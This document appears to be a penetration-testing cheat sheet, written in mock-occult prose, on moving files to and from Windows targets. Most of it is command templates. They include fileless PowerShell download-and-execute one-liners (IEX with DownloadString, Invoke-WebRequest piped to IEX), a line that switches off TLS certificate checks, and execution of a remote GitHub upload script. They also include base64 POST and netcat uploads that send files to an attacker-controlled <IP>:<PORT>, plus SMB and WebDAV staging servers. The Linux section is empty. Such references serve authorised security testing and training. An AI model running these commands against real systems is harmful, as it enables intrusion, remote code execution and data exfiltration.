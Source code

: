 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>🪟 Windows</strong></summary>
  <details>  
    <summary><strong>📥 Downloads</strong></summary>
      <details>
        <summary><strong>PowerShell Downloads</strong></summary>  
        <details> 
        <summary><strong>PowerShell DownloadFile Method</strong></summary>
          
  Sync  
  ```powershell
  (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
  ```
  Async  
  ```powershell
  (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
  ```
          
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Default  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Default  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```
  </details>
  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Default**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

<details>
    <summary><strong>FTP Downloads</strong></summary>  
    
  **Upload file**  
  
  Setting up a Python3 FTP Server in Linux
  ```bash
  sudo pip3 install pyftpdlib
  sudo python3 -m pyftpdlib --port 21
  ```

  **Option 1: Download file using Powershell**
  ```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
  ```

  **Option 2: Download file using CMD**  
  
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo GET <FILE> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  open <IP>
  USER anonymous
  GET <FILE>
  bye
  ```
  Back in CMD...
  ```cmd
  more <FILE>
  ```
---
  
  </details>
  </details>
  <details>  
    <summary><strong>📥 Uploads</strong></summary>  
    <details>  
  <summary><strong>PowerShell Uploads</strong></summary>  
  <details>  
  <summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  
    
  1. Encode File Using PowerShell 
  ```powershell
  [Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
  Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

  2. Decode Base64 String in Linux
  ```bash
  echo <BASE64 STRING> | base64 -d > <FILE>
  md5sum <FILE>
  ```
  </details>
  <details>  
  <summary><strong>PowerShell Web Uploads</strong></summary>  
    
  1. Installing a Configured WebServer with Upload in Linux
  ```bash
  pip3 install uploadserver
  python3 -m uploadserver
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
  ```

  </details>
  <details>  
  <summary><strong>PowerShell Base64 Web Upload</strong></summary>  
    
  1. We use Netcat to listen in on a port we specify and send the file as a POST request.
  ```bash
  nc -lvnp <PORT>
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  $b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
  Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
  ```
  3. We copy the output and use the base64 decode function to convert the base64 string into a file.
  ```bash
  echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
  ```
  </details>
  </details>
  <details> 
  <summary><strong>SMB Uploads</strong></summary>  

  1. Installing WebDav Python modules in Linux
  ```bash
  sudo pip3 install wsgidav cheroot
  sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
  ```
  2. Uploading Files using SMB in Windows
  ```cmd
  # DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
  dir \\192.168.49.128\DavWWWRoot
  copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
  copy <FILE PATH> \\<IP>\sharefolder\
  ```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
  </details>
  </details>
</details>

---

<details>
  <summary><strong>🐧 Linux</strong></summary>
</details>

---
